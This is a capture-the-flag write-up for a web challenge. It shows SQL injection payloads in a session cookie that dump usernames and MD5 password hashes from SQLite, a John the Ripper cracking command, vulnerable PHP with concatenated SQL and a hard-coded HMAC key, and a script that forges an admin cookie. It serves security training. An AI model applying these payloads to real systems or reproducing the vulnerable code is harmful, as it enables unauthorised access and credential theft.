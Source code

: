 ## Web 2 - SQLi then HMAC
#### Description
Vanilla SQL Injection without protection, and then abuse an insufficient cryptography issue.  
  
__Flag Format__ : WTCTT2023_WEB02{[a-z0-9]{32}}  
__URL__ : [http://web.wtctt2023.p7z.pw:8002/](http://web.wtctt2023.p7z.pw:8002/)  
  
Hint 1: Directory Fuzzing is NOT required (no hidden files / web pages).  
Hint 2: Online password brute forcing (dictionary attack) is NOT required.  
Hint 3: The challenge is designed to be exploited manually without automated security scanners.
#### Solution

Open dev tool and I found some hint. it told about this challenge must sql injection on cookie and before : 

![1.png](./assets/web2/1.png)

Let's try by go to login page and follow by login step but open interception on Burp Suite and send HTTP Request to request for craft the payload.

![2.png](./assets/web2/2.png)

use boolean base and the response will show you that something is interesting.

```less
guest' or '1'='1%3Ainvalid
```

![3.png](./assets/web2/3.png)

Follow by step if we can injection, I will find about number of columns in table for make union payload with order by statement. try to increase number to get error if you get error bring the current number - 1 and you will get number of columns in table.

```less
guest' ORDER BY 1--%3Ainvalid
```

![4.png](./assets/web2/4.png)

After I know about number of column I will find the name of table by this command.

```sql
guest' UNION SELECT column_name, NULL FROM information_schema.columns--%3Ainvalid
```

![5.png](./assets/web2/5.png)

but response told you ___"no such table: information_schema.columns"___ that make me sure. the dbms is SQLite.  [Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

```sql
guest' UNION SELECT 1,sql,2 FROM sqlite_schema--%3Ainvalid
```

I entered sql between 1 and 2 because, based on my testing, I discovered that putting a value in this position there would result in a response.

![6.png](./assets/web2/6.png)

get username

```sql
guest' UNION SELECT 1,username,2 FROM members--%3Ainvalid
```

get password

```sql
guest' UNION SELECT 1,password,2 FROM members--%3Ainvalid
```

Ohhhhh, password was encrypted by MD5 but don't worry I will crack it with john the ripper. run command and you will get the password of testuser use it to login.

```less
john --wordlist={PathOfRockYou} --format=raw-md5 cipher
```

After login, you will meet some highlight of code.

```php
<?php
    
    # init db
    $databaseFile = 'database.sqlite';

    if (!file_exists($databaseFile)) {
        try {
            // Create (connect to) a read-only connection to SQLite database in file
            $database = new PDO('sqlite:' . $databaseFile );
            
            // Set errormode to exceptions
            $database->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

            // Create the 'members' table
            $createQuery = "CREATE TABLE IF NOT EXISTS members (
                                user_id INTEGER PRIMARY KEY,
                                username TEXT NOT NULL,
                                password TEXT NOT NULL
                            )";
            $database->exec($createQuery);

            $insertQuery = "INSERT INTO members (username, password) VALUES (?, ?)";
            $statement = $database->prepare($insertQuery);

            $passwords = [
                'whatever', 
                getenv('ADMIN_PASSWORD')
                ];
            
            
            $statement->execute(['testuser', md5($passwords[0])]);
            $statement->execute(['unguessable_admin', md5($passwords[1])]);
            
            $database = null;
        } catch (PDOException $e) {
            
            setcookie('error', $e->getMessage(), 0, '/'); // Set cookie
            
        }
    } 

    // read-only
    $database = new PDO('sqlite:' . $databaseFile, null, null, [PDO::SQLITE_ATTR_OPEN_FLAGS => PDO::SQLITE_OPEN_READONLY]);
    $database->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    $secretKey =  base64_decode('ZjcwODRiOGM0MDMzNTI5MWQxMWYwMTEzY2RmNDhlNmM='); 


    // Function to create a HMAC signature
    function createHmacSignature($username) {
        global $secretKey;
        return hash_hmac('sha256', $username, $secretKey);
    }

    if(!isset($_COOKIE['app_session'])){
        $cookieValue = 'guest' . ':invalid' ;
        setcookie('app_session', $cookieValue, 0, '/'); // Set cookie
    }

    // Function to validate the session
    function isSessionValid() {
        global $database;
        global $secretKey;
        if (isset($_COOKIE['app_session'])) {
            list($username, $cookieHmac) = explode(':', $_COOKIE['app_session']);
            // Prepare a statement for getting user data
            try {
                // Check if user exists in the database
                $sql = "SELECT * FROM members WHERE username = '".$username."'";
                
                $stmt = $database->prepare($sql);
                $stmt->execute();
                $user = $stmt->fetch(PDO::FETCH_ASSOC);

                if($user !== false){
                     $calculatedHmac = createHmacSignature($username, $secretKey);
                     // Check if the HMAC is valid
                     if (hash_equals($calculatedHmac, $cookieHmac)) {
                        return true;
                     }
                     echo '<!-- Debug1: '.$user['username'].' -->';
                }
                
                return false;

            } catch (PDOException $e) {
                // Handle the database error, e.g., log it or echo an error message
                echo '<!-- Debug2: '.$e->getMessage().' -->';
                return false; // Return false in case of a database error
            }
            
        }
        return false;
    }


    // Login Function
    function login($username, $password) {
        // Prepare a statement for getting user data
        global $database;
        global $secretKey;
        $stmt = $database->prepare("SELECT * FROM members WHERE username = ?");
        $stmt->execute([$username]);
        $user = $stmt->fetch(PDO::FETCH_ASSOC);

        if ($user && md5($password) === $user['password']) {
            // Correct credentials, create HMAC signature
            $hmac = createHmacSignature($username, $secretKey);
            $cookieValue = $username . ':' . $hmac;
            setcookie('app_session', $cookieValue, 0, '/'); // Set cookie
            header("Location: /index.php");
            exit();
        }
        setcookie('error', 'Username or Password is not correct.', 0, '/'); // Set cookie
        
        header("Location: /login.php?error=cred_invalid");
        exit();
    }

    // Logout Function
    function logout() {
        if (isset($_COOKIE['app_session'])) {
            // Expire the cookie by setting its expiration time in the past
            setcookie('app_session', '', time() - 3600, '/');
            unset($_COOKIE['app_session']);
        } 
        header("Location: /index.php");
        exit();
    }


?>
```

If you read it you will find something that vulnerable, it has secret key on code (HardCode!!) and I cut some code that make me to get flag.

```php
<?php
$secretKey =  base64_decode('ZjcwODRiOGM0MDMzNTI5MWQxMWYwMTEzY2RmNDhlNmM='); 


// Function to create a HMAC signature
function createHmacSignature($username) {
    global $secretKey;
    return hash_hmac('sha256', $username, $secretKey);
}
echo createHmacSignature("unguessable_admin")
?>
```

![7.png](./assets/web2/7.png)

Edit session on cookie by your skill.

![8.png](./assets/web2/8.png)

Yummy, got FLAG2. XD!!!